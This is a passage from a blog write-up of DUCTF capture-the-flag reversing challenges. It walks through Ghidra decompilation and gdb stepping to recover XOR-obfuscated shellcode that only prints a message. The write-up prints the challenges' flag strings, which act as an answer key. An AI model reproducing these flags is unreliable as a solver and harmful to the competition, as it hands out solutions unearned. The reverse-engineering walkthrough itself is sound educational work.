  iVar1 = sprintf(buf,fmt,"d1d_You_Just_ltrace_",(ulong)this,(ulong)crap,(ulong)is,(ulong)too,
                  (ulong)easy,(ulong)what,(ulong)the,(ulong)heck);
  local_28 = (long)iVar1;
  buf[local_28] = (char)brac1;
  puts(flag + 6);
  return 0;
}
```

As such, dynamic analysis of the program via `gdb` seemed like the easiest option. Just set a breakpoint right at the `puts` call and inspect the stack!
This can be done via `b *main+241` and then `x/s $rsp`:



The flag is `DUCTF{d1d_You_Just_ltrace_296faa2990acbc36}`. The cool gdb interface is [`gef`](https://gef.readthedocs.io/en/master/)

## Added protection (reversing) - 200 points {#Added-protection}

> Author: h4sh5
> 
> This binary has some e^tra added protection on the advanced 64bit shellcode
> 
> Files: added_protection

When reading the challenge description, the `^` in its description said something to me about XOR being used in some way, as the `^` character is a symbol that is frequently used in programming to convey the bitwise XOR operation.
The disassembly via `ghidra` did not help me much at the time:

```c
undefined8 main(void)
{
  ushort *puVar1;
  code *__dest;
  ulong local_10;

  fprintf(stderr,"size of code: %zu\n",0x82);
  local_10 = 0;
  while (local_10 < 0x41) {
    puVar1 = (ushort *)(code + local_10 * 2);
    *puVar1 = *puVar1 ^ 0xbeef;
    if (*puVar1 < 0x2a) {
      *puVar1 = *puVar1 - 0x2b;
    }
    else {
      *puVar1 = *puVar1 - 0x2a;
    }
    local_10 = local_10 + 1;
  }
  __dest = (code *)mmap((void *)0x0,0x82,7,0x22,-1,0);
  if (__dest == (code *)0xffffffffffffffff) {
    perror("mmap");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  memcpy(__dest,code,0x82);
  (*__dest)();
  return 0;
}
```

This seemed to me like something was being obfuscated with the XOR of pointers with constants, and that reversing this would lead to the flag.
However, this was one of the last challenges I solved and it was quite late, with me being super sleepy and being unable to interpret the code correctly.

So, I did what I could think of at the time - resort to dynamic analysis of the code via gdb. I was surprised to see this work!
Basically, what this code is doing is building shellcode that was "obfuscated" (encrypted via a XOR cipher) and then executing it.
Using GDB this code can be inspected and the flag can be found!

I just set a breakpoint in GDB to the `mmap` call and kept stepping through the instructions.
The `(*__dest)()` instruction was decompiled from a `call rdx` that jumped to the "shellcode".

After stepping for a bit and inspecting the stack we can find the flag:

```
gef➤  x/s $rsp
0x7fffffffddd4:	"DUCTF{adv4ncedEncrypt3dShellCode}Can u find the flag?   \n"
```

Right after following the `call rdx` instruction we can find the "shellcode" (more like flagcode):
```
gef➤  x/30i $pc
=> 0x7ffff7fc9000:	sub    rsp,0x64
   0x7ffff7fc9004:	mov    rcx,rsp
   0x7ffff7fc9007:	movabs r8,0x64617b4654435544
   0x7ffff7fc9011:	movabs r9,0x6e456465636e3476
   0x7ffff7fc901b:	movabs r10,0x5364337470797263
   0x7ffff7fc9025:	movabs r11,0x65646f436c6c6568
   0x7ffff7fc902f:	movabs r12,0x662075206e61437d
   0x7ffff7fc9039:	movabs r13,0x2065687420646e69
   0x7ffff7fc9043:	movabs r14,0x2020203f67616c66
   0x7ffff7fc904d:	mov    r15d,0xa
   0x7ffff7fc9053:	push   r15
   0x7ffff7fc9055:	push   r14
   0x7ffff7fc9057:	push   r13
   0x7ffff7fc9059:	push   r12
   0x7ffff7fc905b:	push   r11
   0x7ffff7fc905d:	push   r10
   0x7ffff7fc905f:	push   r9
   0x7ffff7fc9061:	push   r8
   0x7ffff7fc9063:	mov    eax,0x1
   0x7ffff7fc9068:	mov    edi,0x1
   0x7ffff7fc906d:	lea    rsi,[rcx-0x1f]
   0x7ffff7fc9071:	mov    edx,0x3a
   0x7ffff7fc9076:	syscall
   0x7ffff7fc9078:	xor    rbx,rbx
   0x7ffff7fc907b:	mov    eax,0x3c
   0x7ffff7fc9080:	syscall
   0x7ffff7fc9082:	add    BYTE PTR [rax],al
   0x7ffff7fc9084:	add    BYTE PTR [rax],al
   0x7ffff7fc9086:	add    BYTE PTR [rax],al
   0x7ffff7fc9088:	add    BYTE PTR [rax],al
```

Space is allocated in the stack for the flag's value, creating a buffer that will be used for it.
Then, values are moved to registers and then pushed to the stack. This is the flag's value (and where it was possible to find it via the example above).

Finally, two syscalls are executed. The first one has the EAX value 1, thus being `write`. This prints out the output we see when running the program normally: "Can u find the flag?".
The second one has the value `0x3c`, 60 in decimal. Using [this table of x86-64 syscalls](https://filippo.io/linux-syscall-table/) we can confirm that it is an `exit` syscall.
This makes the program exit cleanly. As such we can disregard the next part, as it's probably uninitialized memory.

One might think "if the `write` syscall is called with the buffer as argument, how come the flag isn't printed?". Well, if we take a look at the `lea` instruction that was in address `0x7ffff7fc906d` in the snippet above, we can see that `rsi`, the `write` syscall's second argument (the buffer to use), is loaded with an offset of `rcx`'s address. In the second instruction in the snippet `rcx` will be pointing at the stack, in the base of the buffer (since it was set before the `push`es). As such, the buffer address was offset by `0x1f` (31) characters, which is more or less the length of the flag (33). I probably missed some alignment here, but the I think this explains the gist of it - `rsi` will point at the buffer, yes, but a bit after the flag so that it isn't printed!

## Survey (survey) - 10 points {#Survey}

> The organising team have put a lot of effort and love into making DUCTF. We would really appreciate your honest feedback!
> 
> https://duc.tf/feedback

This seemed like a simple feedback survey, but was in fact the most difficult challenge in the whole CTF!
Luckily I managed to complete it with some time to spare, otherwise we would've missed out on these 10 points! 😛

## Sign-off

Overall, this was a very fun CTF, that seemed to be broad in its scope - not only in terms of having varied categories of challenges, but also in terms of difficulty.
It really felt like there was something for everyone, which is always nice to see in CTFs like this.

I would have liked to have taken a shot at the OSINT challenges, as normally these are very creative and fun to do.
However, since they might have me going down a rabbit hole to do something and I might get stuck after having spent a lot of time, I chose to play on my "strengths" instead of taking more risks and went for other categories first.

Unfortunately, I also did not have much time to dedicate to the CTF, hence not even having tried any Web challenge, for example, which was something that could maybe be accessible with my knowledge level.
Additionally, I was sad to only have picked up the Reversing challenges so late given that they were kind of easy (the ones I managed to solve, no clue about the other ones 😛) and might have motivated me to try a bit harder on other challenges I got stuck on.

All in all, this was a very positive experience, once again highlighting the educational value of CTFs in not only being able to test concepts you already know (in my case my recently-acquired `pwn` basics knowledge) and also learn new things!

I hope you enjoyed reading about these challenges, much like I enjoyed solving them.<br/>
And as always: thanks for reading!
